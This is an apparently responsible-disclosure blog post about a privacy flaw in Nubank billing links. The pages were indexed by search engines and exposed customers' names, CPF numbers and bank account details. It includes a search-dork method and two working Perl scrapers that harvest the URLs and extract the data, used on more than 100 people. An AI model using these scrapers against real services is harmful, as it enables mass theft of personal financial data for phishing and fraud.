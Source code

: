 ```yaml
---
layout: content
title: 'A little case about scraping personal data exposure in the web'
description: 'Between the use and some tests that I always end up running on the applications I have installed on my Smartphone, I ended up bumping into a very interesting feature of Nubank, which allows the user to create a "billing link" and send that link to one or more people to charge. I found the functionality very useful, but when I saw up close how it worked, I was a little uncomfortable in view of the number of scenarios that that implementation could be exposed... With this intrinsic dissatisfaction, I decided to generate some proof of concepts and share them with the company so that they could re-evaluate the design of the functionality and it turned out that in this quick and simple demonstration I was able to map some personal data (CPF, Full Name, Account Number and Agency) of more than 100 customers.'
og_image: https://heitorgouvea.me/images/publications/nubank-scraping/google-dorks.png
---
```


### Summary

Between the use and some tests that I always end up running on the applications I have installed on my Smartphone, I ended up bumping into a very interesting feature of Nubank, which allows the user to create a "billing link" and send that link to one or more people to charge. I found the functionality very useful, but when I saw up close how it worked, I was a little uncomfortable in view of the number of scenarios that that implementation could be exposed... With this intrinsic dissatisfaction, I decided to generate some proof of concepts and share them with the company so that they could re-evaluate the design of the functionality and it turned out that in this quick and simple demonstration I was able to map some personal data (CPF, Full Name, Account Number and Agency) of more than 100 customers.

*Disclaimer:* The responsible company was informed about all details contained in this publication in the shortest possible time and it positioned itself in an ethical and transparent manner, demonstrating due attention and commitment. During all tests, no system was invaded or breached, in addition, the company performed all necessary actions/modifications to minimize any undue action that explores the context covered in this publication.

---

### Description

Within the Nubank mobile application, there is a feature called "Charge", this feature comes down to you filling in a value of your desire (if you want) and clicking confirm:

![](/images/publications/nubank-scraping/creating-a-link.png)

After that, a QR Code is generated and you have the option to share it or send the bill through another application, such as WhatsApp:

![](/images/publications/nubank-scraping/whatsapp-shared-link.png)

When I came across this link (the content of the QR Code is also the link), I decided to open it in the browser to take a look and this was the result:

![](/images/publications/nubank-scraping/personal-infos.png)

I came across my full name, CPF, my bank account number and branch exposed without any kind of control, the only requirement to get my information through Nubank was to have such a URL.

Such URL is generated exclusively by the client in your application and it is also up to the client to define how and with whom to share each generated URL.

Convinced to analyse whether this was really possible, I decided to create a *dork* to try to find more of these URLs, this time exposed on the Internet and this was the result:

![](/images/publications/nubank-scraping/google-dorks.png)

Surprised by the fact that Nubank allowed Google and other search engines to index these pages, I decided to validate that such URLs were being published on other channels, and the first channel I decided to validate was Twitter:

![](/images/publications/nubank-scraping/twitter-links.png)

And these are just some of the results, on Twitter you could see that some people use this functionality to receive donations and others use it in very general ways...

---

### Proof of Concept

Convinced to demonstrate an impact of the abuse of this functionality, I decided to create a proof of concept. The first part of this PoC boiled down to building code that would be able to use a search engine to collect as many URLs as possible, so I did a simple *scraper* for Bing:

```perl
#!/usr/bin/env perl

use 5.018;
use strict;
use warnings;
use WWW::Mechanize;
use Mojo::Util qw( url_escape);

sub main {
    my $dork = $ARGV[0];

    if ($dork) {
        my $mech = WWW::Mechanize -> new();
        my %seen = ();

        $dork = url_escape($dork);

        for my $page (0 .. 10) {
            my $url = "http://www.bing.com/search?q=${dork}&first=${page}0";
            $mech -> get($url);
            my @links = $mech -> links();
                        
            foreach my $link (@links) {
                $url = $link -> url();
                next if $seen{$url}++;

                if ($url =~ m/^https?/ && $url !~ m/bing|live|microsoft|msn/) {
                    print $url, "\n";
                }
            }
        }
    }
}

main();
exit;
```

From that code, I was able to collect 100 valid URLs:

![](/images/publications/nubank-scraping/file-with-the-urls.png)

After having all these URLs in a .txt, I had to build another *scraper* that scraped data on the Nubank page:

```perl
#!/usr/bin/env perl

use 5.018;
use strict;
use warnings;
use Mojo::DOM;
use Mojo::UserAgent;

sub main {
    my $urls_file = $ARGV[0];

    if ($urls_file) {
        open my $urls_filehandle, "<", $urls_file or die $!;

        while (<$urls_filehandle>) {
            chomp($_);

            my $userAgent = Mojo::UserAgent -> new();
            my $response  = $userAgent -> get($_) -> result();

            if ($response -> is_success()) {
                my $account = $response -> dom -> find("tr td") -> map("text") -> join(",");

                $account =~ s/Nome,//
                && $account =~ s/CPF,//
                && $account =~ s/Banco,//
                && $account =~ s/Tipo da conta,//
                && $account =~ s/Agência,//
                && $account =~ s/Conta,//
                && $account =~ s/Agência Métodos,//;

                say $account;
            }
        }

        close($urls_filehandle);
    }
}

main();
exit;
```

And this was the result:

![](/images/publications/nubank-scraping/collect-with-names-cpfs.png)

CPF, Full name, account number and branch of more than 100 people, in just a few minutes and a few lines of code.

---

### Impact

The possibility of an attacker abusing this functionality available within Nubank systems is relatively high, as it can expose a huge amount of users, leaking some sensitive information as illustrated above, in addition an attacker who has such information at hand, can use it to strengthen/create a social engineering approach.

---

### Conclusion

Through this analysis it is possible to affirm that a convinced person could implement several *scrapers* in order to map Nubank billing URLs and later collect personal information present in them. This article had PoC as one of those implementations, using a search engine, but there is still room for other channels, such as social networks (Twitter, Facebook and others). What could be used to take these people to exposure or risk scenarios, such as being victims of *spear phishing*/social engineering.

---

### References

- [https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A3-Sensitive_Data_Exposure](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A3-Sensitive_Data_Exposure)

- [https://en.wikipedia.org/wiki/Google_hacking](https://en.wikipedia.org/wiki/Google_hacking)

- [https://en.wikipedia.org/wiki/Web_scraping](https://en.wikipedia.org/wiki/Web_scraping)